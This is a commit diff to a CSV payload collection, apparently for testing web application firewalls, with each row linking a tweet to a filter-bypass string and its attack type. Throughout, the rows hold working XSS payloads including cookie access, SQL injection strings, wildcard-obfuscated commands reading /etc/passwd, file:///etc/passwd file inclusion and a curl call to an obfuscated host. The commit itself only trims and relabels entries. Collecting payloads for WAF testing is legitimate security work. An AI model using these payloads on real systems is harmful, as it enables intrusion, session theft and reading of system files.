

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the shorter side is filled out with more unchanged rows; the diff covers the shown part only.

Commit message:
Little fixes in payloads set
I have removed some not full payloads like "unhex(hex(Concat(your sql query)))" and removed payloads with mistakes like "<P/onweel=alert(1)>". Also made some little fixes in payloads attack types.

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -104,7 +101,7 @@ https://twitter.com/ddhkttmm/status/1235234835939168257,/???/??t+/???/??ss??,rce
 https://twitter.com/ddhkttmm/status/1235234835939168257,/?in/cat+/et?/passw?,rce
-https://twitter.com/gmishra010/status/1230089478980587521,* alert() => window['alert'](),xss
-https://twitter.com/gmishra010/status/1230089478980587521,* alert() => this['alert'](),xss
-https://twitter.com/gmishra010/status/1230089478980587521,* alert() => (alert)(),xss
-https://twitter.com/gmishra010/status/1230089478980587521,* alert() => eval(atob('YWxlcnQoKQ==')),xss
-https://twitter.com/gmishra010/status/1230089478980587521,* document.cookie => document['cookie'],xss
+https://twitter.com/gmishra010/status/1230089478980587521,window['alert'](),xss
+https://twitter.com/gmishra010/status/1230089478980587521,this['alert'](),xss
+https://twitter.com/gmishra010/status/1230089478980587521,(alert)(),xss
+https://twitter.com/gmishra010/status/1230089478980587521,eval(atob('YWxlcnQoKQ==')),xss
+https://twitter.com/gmishra010/status/1230089478980587521,document['cookie'],xss
 https://twitter.com/rodoassis/status/1227228412177211393,<svg onx=() onload=(confirm)(1)>,xss
@@ -123,4 +120,3 @@ https://twitter.com/MacRunMe/status/1223675832641708037,"«input»; p=\&q=-alert
 https://twitter.com/niksthehacker/status/1223335698318548992,"<x onauxclick=a=alert,a(domain)>click",xss
-https://twitter.com/wugeej/status/1222738371547516929,hxxps://www.starbucks.com.br/testing%2522%2520accesskey='x'%2520onclick='confirm%601%60',xss
-https://twitter.com/wugeej/status/1222738371547516929,hxxps://www.starbucks.com.br/testing%2522%80%2520accesskey='x'%2520onclick='confirm%601%60',xss
+https://twitter.com/wugeej/status/1222738371547516929,'x'%2520onclick='confirm%601%60',xss
 https://twitter.com/wugeej/status/1222325340820795392,%0A%0d+select+user+from+dual+%0A%0D,sqli
@@ -128,3 +124,2 @@ https://twitter.com/XssPayloads/status/1213991455892488192,image src\r\n=valid.j
 https://twitter.com/a_l_e_r_t_1_/status/1213493272657760263,""">'><details/open/ontoggle=confirm('XSS')>",xss
-https://twitter.com/zabirao29/status/1211866081377296384,"<a href=""<?=strip_tags($_GET['url']);?>"">",xss
 https://twitter.com/zabirao29/status/1211866081377296384,"?url=""onm<>ouseover=""ale<>rt(1)",xss
@@ -133,5 +128,4 @@ https://twitter.com/zapstiko/status/1206094254684008449,window[document.body.inn
 https://twitter.com/XssPayloads/status/1203945018861465601,"<img src=something onauxclick=""new Function `al\ert\`xss\``"">",xss
-https://twitter.com/kokail/status/1199799446151802881,"<a href=""<?=strip_tags($_GET['url']);?>"">",xss
 https://twitter.com/kokail/status/1199799446151802881,"?url=""onm<>ouseover=""ale<>rt(1)",xss
-https://twitter.com/Elawadly77/status/1199486255085576192,"""un<>ion sel<>ect""",xss
+https://twitter.com/Elawadly77/status/1199486255085576192,"""un<>ion sel<>ect""",sqli
 https://twitter.com/_Y000_/status/1198980679855419398,/*!50000%55nIoN*/+/*!50000%53eLeCt*/+,sqli
@@ -139,7 +133,4 @@ https://twitter.com/Bc10ver/status/1198680092479807488,`payload´; %3Cimg src='n
 https://twitter.com/XssPayloads/status/1197436457889218561,<details onauxclick=confirm`xss`></details>,xss
-https://twitter.com/rootpentesting/status/1195367343750307840,ile:///etc/passwd,lfi
 https://twitter.com/rootpentesting/status/1195367343750307840,file:///etc/./passwd,lfi
-https://twitter.com/IIAnaisII_289/status/1195115835997724672,"<style>
-@keyframes
- a{}b{animation:a;}</style> <b/onanimationstart=prompt`${document.domain}&#x60;>",xss
+https://twitter.com/IIAnaisII_289/status/1195115835997724672,"<style>@keyframes a{}b{animation:a;}</style> <b/onanimationstart=prompt`${document.domain}&#x60;>",xss
 https://twitter.com/Jonathan_Dupre/status/1193896097292464129,`curl -L http://ⒼⓄⓄⒼⓁⒺ.ⒸⓄⓂ`,rce
```
Also changed, not shown: 7 removed rows and 2 edited cells elsewhere in this file.
